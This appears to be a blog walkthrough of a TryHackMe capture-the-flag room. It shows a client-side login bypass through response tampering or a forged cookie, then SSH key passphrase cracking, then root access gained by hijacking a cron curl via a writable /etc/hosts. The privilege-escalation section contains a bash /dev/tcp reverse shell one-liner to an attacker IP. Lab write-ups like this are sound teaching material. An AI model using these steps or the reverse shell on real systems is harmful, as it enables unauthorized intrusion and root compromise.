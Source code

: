 ```yaml
---
layout: post
published: false
title: "TryHackMe - WebAppSec 101 | Walkthrough"
date: 2020-07-26 14:32:20 +0300
description: WebAppSec101 room of Tryhackme | Writeups.
excerpt: "Walkthrough of WebAppSec 101 room - Tryhackme"
image: "https://jaiguptanick.github.io/Blog/images/WebAppSec101/WebAppSec101.png"
sitemap:
    priority: 0.8
    lastmod: 2020-07-26
    changefreq: monthly
---
```


<style>
/* This stylesheet sets the width of all images to 100%: */
img {
  width: 90%;
}
</style>

<h2 align="center" >WebAppSec 101 - Tryhackme Walkthrough </h2>
---
Here is a walkthrough of the [TryHackMe](https://tryhackme.com/) room “WebAppSec 101.” If you haven’t already completed the challenge, you can do so [here](https://tryhackme.com/room/webAppSec101).

>Hello, today we are going to solve an exciting room WebAppSec 101, which is quite different for me than other challenges. It is worth solving this room as it contains some essential Owasp Top 10 vulnerability, i.e Broken Authentication. Also, using some automated Privilege Escalation scripts like linpeas.sh makes it more interesting.

## Enumeration
---

<h3>Nmap</h3>

![WebAppSec 101 Walkthrough nmap]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/nmap.png)

As always starting with a nmap scan.Only two 22 with SSH and 80 with Http are open.Rest are filtered.Initially no clue on SSH so moving to Enumerate Http.

Simultaneously starting nikto scan till then but got nothing unusual.

![WebAppSec101Walkthrough nikto]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/nikto.png)

Moving to the main website:-

![WebAppSec101 writeup website]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/website.png)

This shows a normal webpage with some information about WebAppSec101 password manager.There are only two pages linked with homepage which seems usual,so starting a directory scan.

<h3>Dirsearch Scan</h3>

![WebAppSec101 room dirscan]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/dirsearch.png)

Directory scanning showed many pages but /admin/ seems interesting.

<h3>Logging In via Broken Authentication</h3>

![WebAppSec101]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/adminpage.png)

Now no clue on credentials, also brute-forcing is not the solution as mentioned in the hint.

Just enumerating the files associated with the source code shows us an exciting file named login.js containing the function used in the login form on the /admin page.

![WebAppSec101_tryhackme_logincode]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/logincode.png)

The function login() in the box is the vulnerable code that will let us bypass the login form. The variable creds take the credentials, and variable response sends them to /api/login for validation, and the statusOrCookie variable takes the response. Till here, everything seems perfect now in the Conditional statement; it checks if the response from the server is "Incorrect Credentials" then it will not allow access otherwise, it will set a cookie named "SessionToken" to statusOrCookie and redirect us to the admin panel. Here lies the vulnerability as a user can change the response of /api/login from "Incorrect Credentials" to anything else using BurpSuite and trick the server into running the else part of the code.<br>Lets see practically:-
<br>Intercepting request using burp:

![WebAppSec101 solution burpsuite]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/burp1.png)


Now, as we want to change the response, not the request so choosing Action > Do intercept > Response to the request.

![walkthrough_WebAppSec101_burp]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/doresponse.png)

Forwarding the request to get the response:

![writeup WebAppSec101 response]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/response1.png)

We get the response as expected now change it to anything else or delete "Incorrect Credentials" and again forward the request.
Now refresh the page to get the access.<br>
Wow! we got access to the page without the credentials.

![WebAppSec101 solutions]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/loggedin.png)

<h3><b>BONUS</b></h3>

---
There is an alternate method to login as the login.js is creating a cookie in case of successfully logging in.
We can manually create the cookie on the login page named "SessionToken" and assign it any value as there is no code to validate our cookie.

![WebAppSec101_tryhacme_cookies]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/cookie.png)

Refresh the page to successfully logging in.

![WebAppSec101]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/logged_via_cookie.png)


Now Moving to page provides majorly 2 information:
``` 
1.There is a user name james.
2.The ssh key to login via SSH.
```
Saving the Key to a file and reduce its permission using ```chmod 400 james.key ``` and then connecting via SSH:

![WebAppSec101]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/ssh_fail.png)

OHH!! It is asking for the passphrase for the provided key. As No passphrase is found.Now bruteforing is the only option.
using <b>ssh2john.py</b> to convert to hash that john can crack using rockyou.txt

![WebAppSec101_walkthrough]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/johncrack.png)

It successfully found the passphrase . Now we can log in via SSH.

![ssh_WebAppSec101]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/james_ssh_success.png)

Get the user flag and submit.

![WebAppSec101_flag]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/flag1.png)


<h3>Privilege Escalation</h3>

This part is really interesting as none of the manual methods worked.
``` 
1.Can't run sudo -l as don't know james password.
2.SUID bit can be cheched by "find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null " but are also not intersting.
```
Using automated Tools like linpeas.sh initially not helped until I saw the room tag mentioned "cron".

![WebAppSec101_root_curl]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/root_curl.png)

User root is connecting to a URL using curl, moving down to check more to results of linpeas shows writable access to file /etc/hosts which is usually only writable by root. 

![WebAppSec101_etc_hosts]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/etc.png)

Since curl is used by root so if we somehow exploit it we can get the root access.The curl command from cronjob is using a "WebAppSec101.thm" as hostname and we have write access to the hosts file. Meaning we can replace the hostname to make the cronjob think that the hostname is from our IP Address which will let it connect to our given IP address.

Lets do this practically:

![WebAppSec101_python_server]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec101/python_server.png)

```
1. We need to start a python server locally using "python3 -m http.server 80" choose port 80 as it is the default port.
2. Make the same directory as "/downloads/src/buildscript.sh" 
3. Finally a file named buildscript.sh with the reverse shell , i used it from pentestermonkey.net "bash -i >& /dev/tcp/10.9.19.190/1234 0>&1"
4.Now start a netcat listener locally to which the Box will connect.
5. At last replace the IP of the /etc/hosts of WebAppSec101.thm to our own connecting IP.
6. All done now wait a few seconds till it connects back to us via nc listener due to cronjob assigned.
```

![WebAppSec101_flag2]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/WebAppSec 101/flag2.png)

Finally, We got a connection from the Box as ROOT. It was really a nice room containing many fundamentals, an I enjoyed soving it and writing its walkthrough.





<br>
<br>

<i>Thanks for your patience,I hope you enjoyed reading. Happy Hacking... </i>

